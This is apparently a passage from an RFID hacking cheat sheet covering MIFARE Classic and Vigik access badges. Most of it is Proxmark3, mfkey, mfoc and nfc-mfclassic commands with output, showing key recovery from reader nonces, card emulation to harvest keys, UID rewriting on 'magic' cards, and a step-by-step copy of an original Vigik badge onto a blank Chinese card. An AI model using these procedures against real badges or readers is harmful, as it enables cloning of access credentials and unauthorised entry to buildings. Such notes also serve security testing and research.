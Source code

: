 ```powershell
TAG RESPONSE: d6537c57

# crapto1gui or mfkey
cd tools/mfkey
make
./mfkey64
./mfkey64 xxxxxxxx 3b45a45a 7ddb6646 142fc1b9 9195fb3f
```

#### Reader only attack

Emulate a MIFARE Classic with a DEADBEEF UID.

```powershell
proxmark3> hf mf sim u deadbeef n 1 x
mf 1k sim uid: de ad be ef , numreads:0, flags:18 (0x12)
#db# Collected two pairs of AR/NR which can be used to extract keyA from reader for sector 1:
#db# ../tools/mfkey/mfkey32 deadbeef 0102xxxx 4d9axxxx 87e7xxxx 06d2xxxx b4a0xxxx
#db# Emulator stopped. Tracing: 1 trace length: 253
#db# 4B UID: deadbeef
```

#### Read a Mifare Dump

```powershell
pip install bitstring
git clone https://github.com/zhovner/mfdread
mfdread.py ./dump.mfd
```

### HF - Mifare Classic 4k

#### Chinese Magic Mifare Classic 4K

Block 0 is writable through normal Mifare Classic commands, i.e. there is not special “unlocked” read/write like in “magic Mifare 1k” version.

Writing block 0 with Proxmark, UID 01020304, using key A being FFFFFFFFFFFF:

```powershell
hf mf wrbl 0 a FFFFFFFFFFFF 01020304040000000000000000000000
```

Again, watch out to have correct BCC and avoid Cascading Tag (0x88) as first byte of UID, or you may make the card unselectable (i.e. brick it).

### HF - Vigik

Tool : https://github.com/cjbrigato/kigiv-for-proxmark3/releases

```powershell
modprobe -r pn533_usb
modprobe -r pn533
nfc-list # Vérifier le bon fonctionnement du lecteur
mfoc -P 500 -O carte-vierge.dmp # Extraire les clés de chiffrement de la puce RFID chinoise dans un fichier
mfoc -P 500 -O carte-originale.dmp # Copiez le contenu de la puce RFID d’origine dans un fichier
nfc-mfclassic W a carte-originale.dmp carte-vierge.dmp # Ecrire le contenu de la puce originale sur la puce chinoise
```
